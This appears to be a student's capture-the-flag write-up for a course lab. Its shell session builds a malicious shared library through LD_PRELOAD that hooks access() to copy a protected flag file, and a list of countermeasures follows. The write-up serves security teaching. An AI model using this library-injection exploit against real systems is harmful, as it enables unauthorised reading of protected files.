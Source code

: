 ## Result

```shell
[10/20/23]seed@VM:~$ nc ctf-fsi.fe.up.pt 4006
nobody@15fba786ef2a:/home/flag_reader$ echo "LD_PRELOAD=/tmp/test.so.1.0.1" > env;
cd /tmp;
echo '#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode){
system("/usr/bin/cat /flags/flag.txt > /tmp/test.txt");
return 0;
}' > test.c;
gcc -fPIC -g -c test.c;
gcc -shared -o test.so.1.0.1 test.o -lc;
touch test.txt; 
chmod 777 test.txt;
cat test.txt
nobody@15fba786ef2a:/home/flag_reader$ nobody@15fba786ef2a:/tmp$ > > > > > nobody@15fba786ef2a:/tmp$ nobody@15fba786ef2a:/tmp$ nobody@15fba786ef2a:/tmp$ nobody@15fba786ef2a:/tmp$ nobody@15fba786ef2a:/tmp$ 
flag{4e8606cd039a0ef4e13785f85f90eff6}
# We obtained our flag
```

## Possible countermeasures

1. **Access Control**:
   - Ensure that users only have the least privilege necessary to perform their tasks.
3. **Environment Variable Restrictions**:
   - Limit the use of environment variables. If environment variables are necessary, we should ensure they cannot be easily manipulated to exploit common vulnerabilities.
4. **Dynamic Link Libraries (DLL) Security**:
   - Be cautious with the use of LD_PRELOAD and similar mechanisms that allow users to load custom shared libraries. Limiting this functionality can prevent unauthorized interception of system calls.
5. **Input Validation**:
   - Implement strict input validation in the `flag_reader`'s program to prevent unauthorized access or manipulation of system calls.

Overall, what should be kept in mind is that this can be easily prevented by restricting the possibility of subverting the access  funtion.